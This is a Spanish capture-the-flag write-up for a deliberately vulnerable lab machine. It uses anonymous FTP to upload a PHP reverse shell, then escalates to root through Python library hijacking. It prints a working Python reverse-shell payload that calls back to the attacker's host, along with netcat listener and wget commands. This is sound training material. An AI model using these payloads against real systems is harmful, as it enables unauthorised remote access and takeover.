 ```yaml
---
title: "TheHackerLabs - Principiante : [Cyberpunk]"
date: 2024-09-06 19:00:00 +0200
categories: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
tags: [CTF, Writeups, TheHackerLabs, Linux, Principiante]
image: /img/posts/CTF/cyberpunk/image.jpg
---
```



## Introducción

Bienvenidos al desafío **"Cyberpunk - Relic Infiltration"**, un CTF basado en Linux para principiantes. Este writeup narramos paso a paso cómo se llevó a cabo la infiltración y explotación de vulnerabilidades, desde el reconocimiento inicial hasta la escalada de privilegios y obtención de acceso como **root**.

## Identificación de la Red

Empezamos identificando la IP de la máquina objetivo utilizando el comando `ip a` para verificar nuestra configuración de red y luego con `arp-scan` escaneamos la red local en busca de la IP de la máquina vulnerable.

```bash
❯ ip a
```


```bash
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 10.0.2.5/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
```

Ahora ejecutamos `arp-scan` para identificar las máquinas en la red.

```bash
❯ arp-scan -I eth0 --localnet
```



```bash
10.0.2.8    08:00:27:43:1e:91   (Unknown)
```

## Escaneo de Puertos con Nmap

Procedemos con un escaneo completo de puertos utilizando `nmap` para identificar servicios expuestos.

```bash
❯ nmap -p- -Pn -n --min-rate 2000 10.0.2.8 -oG allports
```



```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Realizamos un escaneo más detallado en los puertos 21, 22 y 80.

```bash
❯ nmap -sSCV -p21,22,80 -vvv 10.0.2.8 -oN ports
```


Puerto 21 con acceso anónimo, un archivo `index.html`, y un archivo `secret.txt`. El puerto 80 presenta un servidor HTTP Apache.


## Acceso al FTP Anónimo

Nos conectamos al servicio FTP usando acceso anónimo.

```bash
❯ ftp anonymous@10.0.2.8
Password: 
ftp> ls
```

Archivos disponibles:

```bash
-rw-r--r--   1 0        0             713 May  1 14:55 index.html
-rw-r--r--   1 0        0             923 May  1 08:51 secret.txt
```

Descargamos y analizamos el archivo `secret.txt`:

```bash
❯ cat secret.txt
```

Contenido de `secret.txt`:

```r
*********************************************
*                                           *
*        Hola Netrunner,                    *
*                                           *
*   Has sido contratado por el mejor fixer  *
*   de la ciudad para llevar a cabo una     *
*   misión crucial.                         *
*                                           *
*   Tenemos información de que Arasaka,     *
*   la mega-corporación más poderosa de     *
*   Night City, está migrando sus sistemas  *
*   y actualmente parece ser vulnerable.    *
*                                           *
*   Necesitamos que te infiltres en sus     *
*   sistemas y desactives el Relic para     *
*   salvar la vida de V.                    *
*                                           *
*   Te espero en Apache.                    *
*                                           *
*                         - Alt             *
*********************************************
```

## Subida de Reverse Shell

Descargamos un reverse shell PHP desde el repositorio de PentestMonkey.

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Subimos el archivo PHP al servidor a través de FTP.

```bash
ftp> put php-reverse-shell.php
```

## Ejecución de Reverse Shell

A continuación, accedemos al puerto HTTP para ejecutar el archivo `php-reverse-shell.php`. Nos conectamos a nuestra máquina a través de Netcat:

```bash
❯ nc -lnvp 443
# whoami
www-data
```

## Escalada de Privilegios

Exploramos el sistema y encontramos un archivo interesante en `/opt/arasaka.txt`, que contiene una cadena cifrada en **Brainfuck**.

```bash
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```

Desciframos la cadena y encontramos información útil. Nos autenticamos como el usuario `arasaka` y descubrimos que podemos ejecutar un script Python con privilegios de `root`.

```bash
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```

### Explotación de la Vulnerabilidad

Usamos **Python Library Hijacking** para obtener acceso como root modificando el script.

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.2.5", 4443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

Nos conectamos nuevamente a través de Netcat, esta vez como **root**.

```bash
# whoami
root
```

## Conclusión

Al final del desafío, logramos infiltrarnos en los sistemas de Arasaka, desactivar el Relic y obtener acceso como root. Este writeup demuestra la importancia de la configuración adecuada de permisos y la protección de servicios expuestos.

Herramientas utilizadas:
- `nmap`
- `ftp`
- `netcat`
- `python`

Medidas de protección:
- Configuración correcta de permisos.
- Auditoría de servicios.
- Uso de autenticación multifactor para servicios sensibles.

¡Gracias por acompañarnos en este desafío!
